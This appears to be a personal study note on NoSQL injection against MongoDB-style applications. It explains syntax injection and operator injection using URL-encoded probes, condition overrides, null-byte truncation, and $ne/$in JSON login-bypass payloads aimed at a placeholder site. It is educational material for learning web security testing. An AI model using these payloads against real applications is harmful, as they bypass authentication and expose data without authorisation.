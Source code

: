 # Syntax injection
This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection. However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
### Test
#### Determining which chars are processed
should break syntax and change response:
```
this.category == '''
```
should not affect
```
this.category == '\''
```
##### Confirming conditional behavior
Send two requests `' && 0 && 'x` and  `' && 1 && 'x` as follows: 

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```

```
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
 If the application behaves differently, this suggests that the false condition impacts the query logic, but the true condition doesn't. This indicates that injecting this style of syntax impacts a server-side query.
##### Overriding existing conditions
`'||'1'=='1`

https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31
results in mongodb query:
```
this.category == 'fizzy'||'1'=='1'
```

##### Null character
mongodb ignores all after it. like comment in sql injection.
```
https://insecure-website.com/product/lookup?category=fizzy'%00
```
query:
```
this.category == 'fizzy'\u0000' && this.released == 1
```

# Operator injection
Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.
* $where
* $ne
* $in
* $regex
#### Examples
Query: `{"username":"wiener","password":"peter"}`
Injections: 
* `{"username":{"$ne":"invalid"},"password":"peter"}`
* `{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}` 
* `{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`



Example of `www-form-urlencoded` injection (PHP): #php
`user[$ne]=test&pass[$ne]=asdf&remember=`

![[Pasted image 20250120063827.png]]